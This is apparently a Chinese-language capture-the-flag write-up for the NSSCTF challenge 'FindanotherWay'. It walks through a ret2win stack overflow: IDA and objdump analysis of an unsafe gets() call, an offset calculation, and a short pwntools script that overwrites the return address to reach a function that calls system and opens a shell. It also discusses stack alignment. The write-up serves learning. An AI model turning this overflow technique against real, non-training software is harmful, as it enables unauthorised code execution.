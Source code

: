 1. 用ida打开文件  

![alt text](image.png)  
- 在左侧发现一个函数叫youfindit，点击查看  
![alt text](image-1.png)
发现调用了system函数，可以用过栈溢出来调用  

- 调用了nss函数和vuln函数，查看发现在vuln函数中调用了gets函数，可以使用栈溢出  
![alt text](image-2.png)  

2. 使用 objdump -d .\FindanotherWay > out.txt 将反汇编代码保存到out.txt中，然后找到vuln函数  

![alt text](image-3.png)  

call vuln是会将返回地址压入栈，要修改的就是这8个字节，%rbp是栈顶的地址，也是8字节，读取位置是-0xc(%rbp),有12字节，所以总共有28个字节，要修改的是最后八个字节  

3. 看youfindit函数的地址  
![alt text](image-4.png)
401230

4. 所以要输入20个字节，然后后面八个字节的16进制是401230，但是这样就有许多不可打印字符，无法直接输入，python的pwntools库可以远程链接并且16进制输入。
```python
from pwn import *

p = remote("node5.anna.nssctf.cn",23567)

ret = 0x401250
input = b'a'*20 + p64(ret)
p.sendline(input)
p.interactive()  
```  
remote是远程连接  
p64()和p32()的作用分别是传入一个数字参数转变为64位和32位  
interactive()的作用是拿到shell后交互  


5. 运行完后报错Got EOF while reading in interactive  
![alt text](image-5.png)  
也有Congratulations等，说明是成功调用了youfindit()  
后来查了一下，Ubuntu有些版本在调用system函数时，%rsp的值必须是16的倍数。我推测，从401230进入函数，就会执行push %rbp，如果从这个地址之后的地址进入函数，那么执行到system时，相比之前rsp的值就减少了8，并且通过我的尝试，确实在401230进入之后都可以  

